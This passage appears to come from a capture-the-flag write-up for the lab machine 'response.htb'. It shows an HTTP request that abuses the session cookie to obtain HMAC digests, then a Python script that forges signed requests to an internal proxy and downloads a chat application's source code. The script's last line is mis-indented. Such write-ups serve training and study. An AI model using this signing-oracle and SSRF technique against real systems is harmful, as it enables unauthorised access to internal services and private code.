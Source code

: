 Changing only the url gives a url_digest error. Both the session and session_digest stay the same.

It is probs a HMAC which means it needs a secret. Lets try the PHPSESSID cookie.

```HTTP
GET /status/main.js.php HTTP/1.1
Host: www.response.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://www.response.htb/status/main.js.php
Cookie: PHPSESSID=http://chat.response.htb
```
This errors out but still gives a session_digest. Swapping this out gives back a page!

This page has a reference to the source code at `files/chat_source.zip`
# Proxy
## Python Script
Creating a python script to automate the above exploit.
```python
import requests
import re
import base64
  
def get_digest(url):
	cookie = {"PHPSESSID":url}
	r = requests.get("http://www.response.htb/status/main.js.php",cookies=cookie)
	res = re.search(r"'session_digest':'([0-9a-f]*)'};",r.text)
	print("Session digest: "+res.group(1))
	return res.group(1)

def download_url(url):
	url_digest = get_digest(url)
	payload = {
	"url":url,
	"url_digest":url_digest,
	"method":"GET",
	"session":"e221eb82bca259b796c50de6e07dd689",
	"session_digest":"6ead98cc96f72e4203e77297a5ceb52ac5470526d614210409b3574ff1e22a56"
	}
	r = requests.post("http://proxy.response.htb/fetch",json=payload)
	return r

  
r = download_url("http://chat.response.htb/files/chat_source.zip")
file = base64.b64decode(r.json()["body"])
with open("chat_source.zip",'wb') as f:
f.write(file)
```
This will also download the source of the chat application.
